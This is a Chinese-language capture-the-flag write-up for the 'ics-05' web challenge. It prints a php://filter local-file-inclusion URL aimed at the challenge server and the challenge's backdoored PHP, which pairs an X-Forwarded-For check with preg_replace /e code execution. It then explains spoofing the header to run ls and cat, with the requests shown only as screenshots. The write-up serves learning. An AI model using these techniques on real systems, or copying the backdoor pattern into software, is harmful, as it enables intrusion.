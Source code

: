 # ics-05
## 题目描述
其他破坏者会利用工控云管理系统设备维护中心的后门入侵系统
## 思路
http://220.249.52.133:53620  
点开题目链接，熟悉的界面，直接根据题目描述进入设备维护中心界面：  
![avatar](./picture/ics-05_1.png)  
没什么有用的信息，查看源码：  
![avatar](./picture/ics-05_2.png)  
看到有一个 GET 参数，尝试了 sql 注入，没什么卵用，然后不会了……看 wp，发现有个什么 php 伪协议？访问如下 url，似乎可以查看源码：  
http://220.249.52.133:53620/index.php?page=php://filter/read=convert.base64-encode/resource=index.php  
![avatar](./picture/ics-05_3.png)  
看到一段经过 base64 编码后的乱码，解码一下，看到 php 源码，我们直接看最重要的部分：  
```php
<?php
//方便的实现输入输出的功能,正在开发中的功能，只能内部人员测试
if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {
    echo "<br >Welcome My Admin ! <br >";
    
    $pattern = $_GET[pat];
    $replacement = $_GET[rep];
    $subject = $_GET[sub];

    if (isset($pattern) && isset($replacement) && isset($subject)) {
        //从subject中检索pattern中的值，如果存在，则用replacement中的值替代
        //pattern可设置模式
        preg_replace($pattern, $replacement, $subject);
    }else{
        die();
    }
}
?>
```
首先需要用 xff 伪装一下请求主机的 ip，然后设置三个 GET 参数，并需要绕过 preg_replace。根据 wp，/e 模式可以让参数 replacement 的代码当作 PHP 代码执行。因此：  
![avatar](./picture/ics-05_4.png)  
可以成功执行，则列出当前目录的文件：  
![avatar](./picture/ics-05_5.png)  
看看这个最奇怪的文件夹里有啥，注意，此处不能用空格，因为 burp 中的请求包不会再做 url 编码，需要用加号或者 %20(url编码后的空格) 替代：  
![avatar](./picture/ics-05_6.png)  
有 flag，cat 失败，应该是个文件夹，继续 ls：  
![avatar](./picture/ics-05_7.png)  
查看该文件，获得 flag：  
![avatar](./picture/ics-05_8.png)  
